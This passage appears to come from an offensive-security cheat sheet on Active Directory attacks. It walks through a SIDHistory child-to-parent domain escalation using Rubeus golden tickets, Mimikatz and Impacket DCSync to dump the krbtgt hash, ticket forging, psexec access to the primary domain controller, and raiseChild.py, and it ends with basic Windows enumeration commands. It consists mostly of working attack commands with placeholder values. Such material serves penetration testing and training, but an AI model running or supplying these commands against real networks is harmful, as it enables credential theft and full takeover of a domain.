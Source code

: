 ```powershell title='SIDHistory On Windows: Rubeus'
# Rubeus: Creating golden ticket
.\Rubeus.exe golden /rc4:'<KRBTGT-NTLM>' /domain:'logistics.hhesenjan.local' /sid:'<DOMAIN-SID>' /sids:'<ENTERPRISE-ADMIN-GROUP-SID>' /user:'hhesenjan-admin' /ptt

# Klist: Viewing the golden ticket
klist

# Mimikatz: Performing DCSync Attack on primary domain controller
lsadump::dcsync /user:HHESENJAN\lab_admin /domain:hhesenjan.local
```

```shell title='SIDHistory on Linux'
# Impacket: DCSync with secretsdump.py
impacket-secretsdump 'logistics.hhesenjan.local/<USERNAME>'@'<CHILD-DC-IP>' -just-dc-user LOGISTICS/krbtgt

# Impacket: Finding Child Domain SID
impacket-lookupsid 'logistics.hhesenjan.local/<USERNAME>'@'<CHILD-DC-IP>'| grep "Domain SID"

# Impacket: Finding Enterprise Admins Group SID
impacket-lookupsid 'logistics.hhesenjan.local/<USERNAME>'@'<CHILD-DC-IP>' | grep -B12 "Enterprise Admins"

# Impacket: Generating Golden Ticket
impacket-ticketer -nthash '<NTLM>' -domain 'logisitcs.hhesenjan.local' -domain-sid '<CHILD-DOMAIN-SID>' -extra-sid '<ENTERPRISE-ADMIN-SID>' '<AccountName>'

# Klist: To use Golden Ticket
export KRB5CCNAME='<NAME>.ccache'

# Impacket: Accessing primary domain as enterprise admin
impacket-psexec 'logistics.hhesenjan.local/hhesenjan-pwnd'@'<PRIMARY-DOMAIN-CONTROLLER>' -k -no-pass -target-ip '<PRIMARY-DOMAIN-IP>'
```

```shell title='Automated SIDHistory Attack'
# raiseChild: Performing SIDHistory Attack
raiseChild.py -target-exec '<PRIMARY-DOMAIN-CONTROLLER>' '<CDHILD-DOMAIN>'/'<USERNAME>'
```

[SIDHistory](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) is a technique which will only succeed if the child domain has a two-way trust relationship with the domain controller. The only way for the system administrator to revoke our Golden Ticket is by resetting the `KRBTGT` account password. 

## Living Off The Land

The **Living Off The Land** is a concept where we only use tools which comes with the machine to elevate our privileges or lateral move through the network. It's possible because the Windows machines comes with a-lot of different tools which are great for enumerating the system.

```powershell title="Living Off The Land"
# CMD: Getting Hostname
hostname

# CMD: Getting Username
whoami

# CMD: Getting a list of all logged on users
qwinsta

# CMD: Getting Domain Name of Host
echo %USERDOMAIN%

# CMD: Getting Domain Controller Information
echo %logonserver%
```